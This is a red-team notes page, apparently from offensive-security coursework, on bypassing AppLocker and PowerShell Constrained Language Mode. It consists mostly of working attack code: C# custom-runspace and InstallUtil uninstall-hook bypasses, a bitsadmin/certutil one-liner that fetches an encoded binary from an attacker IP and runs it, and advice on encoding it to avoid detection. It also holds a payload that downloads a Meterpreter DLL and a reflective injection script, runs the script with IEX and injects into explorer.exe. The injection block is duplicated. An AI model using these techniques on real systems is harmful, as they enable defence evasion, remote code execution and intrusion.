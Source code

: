 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Applocker_Bypass_Powershell
---
```



<span style="font-size: 35px; color:red"><b>Applocker Bypass with Powershell</b></span>
&nbsp;
To compile in x64:
```cs
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();


			PowerShell ps = PowerShell.Create();
			ps.Runspace = rs;
		
			String cmd = "<CAMBIA QUI CON COMANDO POWERSHELL>";
			ps.AddScript(cmd);
			ps.Invoke();
			rs.Close();
		  }
    }
}
```
To import System.Management.Automation.Runspaces, right click on Reference (right side) and Add Reference, we'll then select the _Browse..._ button at the bottom of the window and navigate to the `C:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35` folder where we will select System.Management.Automation.dll.

This exploit will create a custom powershell runspace to run code in that won't be affected by Applocker.

---

<span style="font-size: 25px; color:white"><b>Powershell CLM Bypass</b></span>
Using InstallUtil (utility that allows the installation and uninstallation of server resources)

To compile:
```cs
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("This is the main method which is a decoy"); 'change here
        }
    }

    [System.ComponentModel.RunInstaller(true)]
    public class Sample : System.Configuration.Install.Installer
    {
        public override void Uninstall(System.Collections.IDictionary savedState)
        {
            String cmd = "$ExecutionContext.SessionState.LanguageMode | Out-File -FilePath C:\\Tools\\test.txt";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();

            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;

            ps.AddScript(cmd);

            ps.Invoke();

            rs.Close();
        }
    }
}
```


<span style="font-size: 25px; color:white"><b>OneLiner</b></span>
```shell
bitsadmin /Transfer myJob http://<your_ip>/file.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```

<span style="font-size: 25px; color:white"><b>Step-By-Step</b></span>

To make sure it's note detected, you can base64 encode it like so (will dump encrypted file in file.txt):
```shell
certutil -encode C:\Users\Offsec\source\repos\Bypass\Bypass\bin\x64\Release\Bypass.exe file.txt
```

To download it:
```shell
bitsadmin /Transfer myJob http://192.168.119.120/file.txt C:\Users\student\enc.txt
```

To decode it:
```shell
certutil -decode enc.txt Bypass.exe
```

To run it (if it's saved as Bypass.exe),
```shell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\Tools\Bypass.exe
```

<span style="font-size: 25px; color:white"><b>Reflective Injection</b></span>
```
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```
Change the above script payload line with ^ this one to download the Meterpreter DLL (created from msfvenom) into a byte array, determine the process ID of explorer.exe for the DLL injection and download and execute the <span style="color:red">Invoke-ReflectivePEInjection</span> script.
```
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```
Change the above script payload line with ^ this one to download the Meterpreter DLL (created from msfvenom) into a byte array, determine the process ID of explorer.exe for the DLL injection and download and execute the <span style="color:red">Invoke-ReflectivePEInjection</span> script.
